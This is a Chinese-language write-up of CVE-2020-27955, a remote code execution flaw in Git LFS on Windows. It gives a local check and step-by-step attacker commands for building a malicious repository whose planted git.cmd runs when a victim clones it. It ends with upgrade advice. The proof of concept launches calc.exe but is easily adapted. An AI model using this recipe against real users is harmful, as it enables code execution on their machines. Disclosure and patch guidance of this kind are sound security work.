 # Git LFS 远程代码执行漏洞 CVE-2020–27955

2020年11月5日，在Git扩展之一GIT LFS上发现了一个关键漏洞。此漏洞利用成功会导致目标机器的远程代码执行。

远程代码执行漏洞仅对Windows平台上的Git-LFS（git-lfs）版本<=2.12上有效。一旦受害者克隆了恶意存储库，并在他们的系统上运行了易受攻击版本的git-lfs，恶意Payload就会立即执行。

漏洞验证：

在CMD窗口上使用以下命令。如果安装了受影响的git-lfs工具，系统将提示您使用计算器应用程序。


```
1. mkdir C:\Windows\Temp\poc
2. cd C:\Windows\Temp\poc
3. echo calc.exe > git.cmd
4. git-lfs track
```

在目标系统上获得RCE

按照以下步骤进行远程代码执行

作为攻击者：

1.在GitHub上创建一个存储库

![](media/16097299855890/16097300092808.jpg)



```
2. cd /dev/shm
3. git clone https://github.com/attacker/poc.git .
4. echo calc.exe > git.cmd
5. git lfs track “*.dat”
6. echo “Junk” > large.dat
7. git add -A
8. git commit -m “POC”
9. git push -u origin master -f
```

![](media/16097299855890/16097300214141.jpg)


受害者：

1.git clone https://github.com/attacker/poc.git.

![](media/16097299855890/16097300337411.jpg)

PoC视频：

https://www.youtube.com/watch?v=WF69X9KEayE

加固建议：

更新并保持 git 版本高于 2.29.2，将 git-lfs 扩展程序保持在 2.12 以上


ref：

https://medium.com/bugbountywriteup/git-lfs-exploit-for-remote-code-execution-cve-2020-27955-e8f4786163c3

https://forum.ywhack.com/thread-114744-1-4.html